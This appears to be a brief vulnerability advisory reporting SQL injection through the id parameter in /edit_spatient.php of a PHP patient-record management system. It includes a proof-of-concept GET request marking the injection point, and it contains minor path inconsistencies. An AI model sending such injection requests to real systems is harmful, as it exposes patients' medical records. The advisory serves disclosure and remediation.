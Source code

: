 # cve# patient-record-management-system-in-php has sql injection in /edit_spatient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/edit_spatient.php and $id 

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in /edit_spatient.php. The parameters that can be controlled are as follows: $id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in fpatient.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/071c3401-b5ab-4697-8a83-bab472f2e7c8)



## POC

```
GET /edit_spatient.php.php?id=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
